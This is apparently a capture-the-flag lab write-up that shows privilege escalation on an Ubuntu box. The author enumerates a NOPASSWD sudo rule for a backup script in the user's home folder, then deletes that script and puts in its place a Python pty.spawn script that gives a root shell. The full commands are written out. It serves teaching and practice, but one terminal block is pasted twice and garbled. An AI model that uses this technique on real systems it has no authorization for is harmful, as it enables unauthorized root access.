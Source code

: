 ```sh
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```
## bak.py explanation
- takes `/var/www/html` and turns it to `zip` file and puts it in `/var/backups/` as `website.zip`
```sh
meliodas@ubuntu:/var/www/html$ ls -hla
total 24K
drwxr-xr-x 3 root     root     4.0K Aug 24  2019 .
drwxr-xr-x 3 root     root     4.0K Aug 24  2019 ..
drwxrwxr-x 3 meliodas meliodas 4.0K Aug 24  2019 Blog
-rw-r--r-- 1 root     root      12K Aug 24  2019 index.html
meliodas@ubuntu:/var/www/html$ cd ..
meliodas@ubuntu:/var/www$ cd ..
meliodas@ubuntu:/var$ cd backups/
meliodas@ubuntu:/var/backups$ ls
apt.extended_states.0  website.zip
meliodas@ubuntu:/var/backups$ 
```
## sudo -l 
```sh
meliodas@ubuntu:~$ sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```
### Notes:
- we can execute `/home/meliodas/bak.py` as root using any python binary in `/usr/bin/python*`
- `bak.py` has only read permissions for our user: `-rw-r--r-- 1 root  root  353 Aug 23  2019 bak.py`
- as the `bak.py` file is in our home `~` directory, we can remove it using `rm` and create another `bak.py` with python script to spawn a shell with root privileges.
# Privileges Escalation [[Spawning shells]]
## new bak.py
```python
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```
## replacing the old `bak.py` with the new `bak.py`
```sh
meliodas@ubuntu:~$ echo '#!/usr/bin/env python' > bak_new.py
meliodas@ubuntu:~$ echo 'import pty; pty.spawn("/bin/bash")' >> bak_new.py 
meliodas@ubuntu:~$ cat bak_new.py 
#!/usr/bin/env python
import pty; pty.spawn("/bin/bashmeliodas@ubuntu:~$ echo '#!/usr/bin/env python' > bak_new.py
meliodas@ubuntu:~$ echo 'import pty; pty.spawn("/bin/bash")' >> bak_new.py 
meliodas@ubuntu:~$ cat bak_new.py 
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
")
meliodas@ubuntu:~$ rm bak.py && mv bak_new.py bak.py
rm: remove write-protected regular file 'bak.py'? y
meliodas@ubuntu:~$ ls
bak.py  user.txt
```